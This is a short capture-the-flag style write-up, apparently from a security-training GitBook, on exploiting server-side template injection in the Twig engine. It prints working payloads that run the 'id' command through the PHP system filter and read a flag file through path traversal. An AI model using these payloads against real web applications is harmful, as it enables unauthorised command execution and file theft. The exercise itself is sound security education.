 # Exploiting SSTI - Twig

Exploit the SSTI vulnerability to obtain RCE and read the flag.

In this exercise the web application is running the Twig template engine, so lets focus on its specific payloads to retrieve the flag.

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets try to get some information with this payload:

```twig
{{ _self }}
```

<figure><img src="../../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

And its working! Now lets work on the payload.

Lets try to use the PHP built-in function `system`:

```twig
{{ ['id'] | filter('system') }}
```

<figure><img src="../../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

As we can see we manage to execute the `id` command on the webserver. Now all we have to do is to work on the payload to retrieve the flag. We can use this one:

```twig
{{ ['cat ../../../flag.txt'] | filter('system') }}
```

<figure><img src="../../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

And we did it!
